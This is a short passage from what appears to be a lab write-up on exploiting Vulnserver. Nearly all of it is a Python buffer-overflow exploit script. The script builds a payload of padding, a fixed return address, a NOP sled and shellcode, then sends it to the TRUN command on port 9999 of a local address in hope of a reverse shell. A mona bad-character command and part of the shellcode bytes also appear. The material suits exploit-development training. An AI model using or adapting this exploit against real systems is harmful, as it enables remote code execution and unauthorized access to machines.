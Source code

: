 ``` !mona bytearray -cpb "\x00" ```
shellcode += "\xff\x63\x2c\xef\xbd\xe9\xcf\xda\x82\x17\x4c\xee"
shellcode += "\x7a\xec\x4c\x9b\x7f\xa8\xca\x70\xf2\xa1\xbe\x76"
shellcode += "\xa1\xc2\xea"

payload = 'A' * 2006 + struct.pack("<L",0x625011AF) + '\x90' * 16 + shellcode

try:
    print "\nSending tons of random bytes..."
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect=s.connect(('192.168.0.24',9999))
    s.recv(1024)
    s.send(('TRUN .' + payload + '\r\n'))
    s.recv(1024)
    s.send('EXIT\r\n')
    s.close()
    print "\nDone! Wonder if we got that shell back?"
except:
    print "Could not connect to 9999 for some reason..."

```

Done! Wonder if we got that shell back?


![Vulnserver_7](/static/img/01/9.png)
